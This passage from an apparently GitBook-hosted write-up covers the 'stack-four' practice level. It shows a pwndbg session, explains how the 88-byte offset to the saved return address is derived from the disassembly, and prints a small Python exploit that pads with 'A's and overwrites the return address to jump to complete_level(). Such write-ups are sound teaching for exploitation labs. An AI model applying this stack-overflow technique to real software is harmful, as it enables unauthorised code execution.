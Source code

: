 We see that the file is filled with `A`'s.

## Exploitation

<pre><code>pwndbg stack-four

<strong>pwndbg> b main
</strong>
pwndbg> run &#x3C; exploit

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni

pwndbg> ni
and will be returning to 0x5555555551a9
Congratulations, you've finished mylevel :-) Well done!
[Inferior 1 (process 44758) exited normally]
</code></pre>

From here, you can see that we are calling line 30, `start_level()` since we replaced it with the address of `complete_level()` instead!!! Once we do this, we complete the level!

<figure><img src="../../../.gitbook/assets/image (2) (1) (3) (5).png" alt=""><figcaption></figcaption></figure>

## Trouble determining distance to the return address?

Yeah, me too.

<mark style="color:yellow;">There is another way that we can determine distance to the return address is to look at where the buffer is relative to the base pointer</mark>.

View <mark style="color:yellow;">disassembly for the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`start_level()`</mark> function:

<figure><img src="../../../.gitbook/assets/image (7) (11).png" alt=""><figcaption></figcaption></figure>

If we pay attention to the load effective address (lea) instruction, we can infer that the return address is `0x50` or `80` bytes from the base pointer (rbp).&#x20;

`+ 8` bytes for the old base pointer (rbp) gives a distance of `0x58` or `88` bytes <mark style="color:yellow;">between the buffer and the return address</mark>. This is where our 88 comes from.

The return address we want to overwrite is another `8` bytes, we add it and we will get a <mark style="color:yellow;">TOTAL payload size</mark> of `0x60` or `96` bytes.

How is it `96` bytes you ask?

Refer back to our exploit.py code:

```python
padding = b'A'*88

sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(b"\xa9\x51\x55\x55\x55\x55\x00\x00")
```
